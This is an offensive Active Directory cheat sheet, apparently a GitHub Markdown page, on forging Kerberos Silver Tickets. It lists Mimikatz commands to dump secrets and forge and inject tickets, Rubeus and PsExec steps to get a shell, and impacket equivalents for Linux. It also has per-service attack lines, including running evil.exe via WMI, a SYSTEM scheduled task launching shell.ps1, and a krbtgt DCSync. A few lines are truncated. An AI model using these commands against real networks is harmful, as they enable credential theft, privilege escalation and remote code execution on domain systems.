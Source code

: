 # SILVER TICKET

### Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN

### 1) Create a ticket for the service

 - mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:

 - mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-134912914

### 2) Use same steps as a golden ticket

 - mimikatz.exe "kerberos::golden /domain:DOMAIN /sid:DOMAIN_SID /rc4:HASH /user:USER /service:SERVICE /target:TARGET"

### Inject the ticket

 - mimikatz.exe "kerberos::ptt TICKET_FILE"

 - .\Rubeus.exe ptt /ticket:TICKET_FILE

### Obtain a shell

 - .\PsExec.exe -accepteula \\TARGET cmd

## Silver Ticket on Linux

 - python ticketer.py -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn SERVICE_PRINCIPAL_NAME USER

 - export KRB5CCNAME=/root/impacket-examples/TICKET_NAME.ccache 

 - python psexec.py DOMAIN/USER@TARGET -k -no-pass

## Services to target with a Silver Ticket

### Service Type --> Service Silver Tickets --> Attack

#### 1) WMI --> HOST + RPCSS --> wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"

#### 2) Powershell Remoting --> CIFS + HTTP + (wsman?) --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 3) WinRM --> HTTP+ wsman --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 4) Scheduled Tasks --> HOST --> schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"

#### 5) Windows File Share (CIFS) --> CIFS --> dir \\dc01\c$

#### 6) LDAP operations including Mimikatz DCSync --> LDAP --> lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt

#### 7) Windows Remote Server Administration Tools (RSAT) --> RPCSS + LDAP + CIFS --> /
